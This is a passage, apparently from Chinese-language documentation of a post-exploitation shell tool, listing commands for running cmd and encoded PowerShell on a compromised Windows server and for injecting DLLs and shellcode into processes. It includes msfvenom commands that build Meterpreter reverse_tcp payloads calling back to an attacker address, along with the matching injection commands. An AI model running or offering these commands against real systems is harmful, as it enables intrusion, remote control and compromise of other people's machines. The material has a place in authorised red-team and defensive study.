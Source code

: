 在服务器上运行cmd.exe /c命令

```
`Usage：#exec_cmd os_command [args]``C:\Windows\Temp> #exec_cmd whoami /priv`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #exec_ps

在服务器上运行powershell.exe -nop -noni -enc 'base64command'

```
`Usage：#exec_ps os_command [args]``C:\Windows\Temp> #exec_ps $psversiontable`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #inject_dll_reflective

使用DLL反射注入到新的进程或现有进程中，DLL必须包含`ReflectiveLoader`导出的函数，而且需要放置在modules/reflective_dll/目录下，注入类型支持：remote_virtual（默认）、remote_virtual_protect，如果没有指定进程PID时默认注入到cmd.exe进程

```
`Usage：#inject_dll_reflective dll_path [injection_type] [remote_process]``C:\Windows\Temp> #inject_dll_reflective messagebox_reflective.dll`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #inject_dll_srdi

使用DLL通用注入到新的进程或现有进程中，需要将dll文件放置在modules/dll/目录下，注入类型支持：remote_virtual（默认）、remote_virtual_protect，如果没有指定进程PID时默认注入到cmd.exe进程

```
`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.120 lport=443 -f dll > /tmp/shellcode.dll``Usage：#inject_dll_srdi dll_path [injection_type] [remote_process]``C:\Windows\Temp> #inject_dll_srdi shellcode.dll`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #inject_shellcode

在新的进程或现有进程注入shellcode，MSF的shellcode格式为`RAW`，注入类型支持：remote_virtual（默认）、remote_virtual_protect，如果没有指定进程PID时默认注入到cmd.exe进程

```
`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.120 lport=443 -f raw > /tmp/shellcode.bin``Usage：#inject_shellcode shellcode_path [injection_type] [remote_process]``C:\Windows\Temp> #inject_shellcode /tmp/shellcode.bin`
```
